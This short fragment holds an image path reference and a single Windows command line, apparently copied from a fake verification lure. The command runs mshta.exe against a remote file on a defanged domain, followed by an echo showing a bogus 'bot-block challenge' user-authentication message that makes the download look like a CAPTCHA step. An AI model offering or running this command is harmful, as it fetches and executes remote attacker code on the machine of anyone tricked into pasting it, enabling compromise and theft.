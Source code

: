 "C:\WINDOWS\system32\mshta.exe" https://hvpb[.]wristsymphony.site/memo.e32 ; echo 🟢 UserAuth: Answer the bot-block challenge. Ref: 2772
